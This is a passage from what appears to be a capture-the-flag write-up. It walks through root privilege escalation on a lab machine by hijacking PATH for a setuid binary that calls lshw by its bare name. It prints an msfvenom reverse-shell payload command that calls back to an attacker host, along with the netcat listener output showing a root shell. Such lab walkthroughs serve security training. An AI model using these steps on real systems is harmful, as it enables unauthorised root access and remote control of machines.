 We find a binary sysinfo, and as part of the `users` group, we have read and execute permissions over it.

`-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

Not only that, the setuid bit is on, so this binary runs with its owner's permissions (root). 

## Examining The Binary

Executing the binary returns a system report on the machine's hardware.

Running the strings command on it reveals more useful information.

`strings sysinfo`

```
<SNIP>
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
<SNIP>
```

We see that it calls the three binaries above. And more importantly, **it did not call them by their full paths**.

This is a vulnerability we can take advantage off.

## Exploiting SUID

First, let's modify the PATH environment variable.

This [command](https://opensource.com/article/17/6/set-path-linux) below will add the `/tmp` directory to our path variable. This means that the shell will look in the `/tmp` directory first when any binary is called by its name (and not its full path).

`export PATH=/tmp:$PATH`

Next, generate a binary payload with msfvenom.

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.X.X LPORT=9999 -f elf > lshw`

Then, place the generated payload `lshw` in the `/tmp` directory.

Finally, execute `sysinfo`.

When executed, it executes `lshw` as root. But due to our altered $PATH, the program searches for `lshw` in `/tmp` and executes it.

Hence, instead of executing the actual lshw tool, it executes our payload at `/tmp/lshw` as **root**, causing a reverse shell to connect back to us.

```
# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 45218
whoami
root
```
